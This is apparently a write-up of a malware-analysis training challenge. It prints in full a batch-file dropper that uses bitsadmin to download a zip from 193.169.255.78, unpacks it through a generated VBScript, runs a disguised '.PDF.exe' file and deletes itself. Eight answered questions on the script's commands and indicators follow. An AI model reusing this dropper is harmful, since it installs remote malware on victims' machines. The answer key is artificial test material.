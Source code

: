 > # Batch Downloader

## Summary

```bat
@echo off
bitsadmin /transfer System /Download /Priority FOREGROUND http://193.169.255.78/FW-APGKSDTPX4HOAUJJMBVDNXPOHZ.PDF.zip %TEMP%\FW-APGKSDTPX4HOAUJJMBVDNXPOHZ.PDF.zip
setlocal
cd /d %~dp0
Call :UnZipFile "%TEMP%" "%TEMP%\FW-APGKSDTPX4HOAUJJMBVDNXPOHZ.PDF.zip"
cd /d "%TEMP%"
start "" "FW-APGKSDTPX4HOAUJJMBVDNXPOHZ.PDF.exe"
del %~s0 /q

:UnZipFile <ExtractTo> <newzipfile>
set vbs="%TEMP%\_.vbs"
if exist %vbs% del /f /q %vbs%
>%vbs%  echo Set fso = CreateObject("Scripting.FileSystemObject")
>>%vbs% echo If NOT fso.FolderExists(%1) Then
>>%vbs% echo fso.CreateFolder(%1)
>>%vbs% echo End If
>>%vbs% echo set objShell = CreateObject("Shell.Application")
>>%vbs% echo set FilesInZip=objShell.NameSpace(%2).items
>>%vbs% echo objShell.NameSpace(%1).CopyHere(FilesInZip)
>>%vbs% echo Set fso = Nothing
>>%vbs% echo Set objShell = Nothing
cscript //nologo %vbs%
if exist %vbs% del /f /q %vbs%
```

### Q1. What command is used to prevent the command echoing in the console?
`@echo off` was used to prevent output in console.<br>
**Answer:** @echo off

### Q2. Which tool is used to download a file from a specified URL in the script?
The attacker use `bitsadmin` to download file from `http://193.169.255.78/FW-APGKSDTPX4HOAUJJMBVDNXPOHZ.PDF.zip`.<br>
**Answer:** bitsadmin

### Q3. What is the priority set for the download operation in the script?
/Priority FOREGROUND<br>
**Answer:** FOREGROUND

### Q4. Which command is used to start localization of environment changes in the script?
Use setlocal to change environment variables when you run a batch file. <br>
**Answer:** setlocal

### Q5. Which IP address is used by malicious code?
**Answer:** 193.169.255.78

### Q6. What is the name of the subroutine called to extract the contents of the zip file?
The attacker call `UnZipFile` to unzip the zip file downloaded.<br>
**Answer:** UnZipFile

### Q7. Which command attempts to start an executable file extracted from the zip file?
The attacker use `start` to start PE file named `FW-APGKSDTPX4HOAUJJMBVDNXPOHZ.PDF.exe`.<br>
**Answer:** start "" "FW-APGKSDTPX4HOAUJJMBVDNXPOHZ.PDF.exe"

### Q8. Which scripting language is used to extract the contents of the zip file?<br>
The attacker create file with `.vbs` extension to unzip file, it's VBScript.<br>
**Answer:** VBScript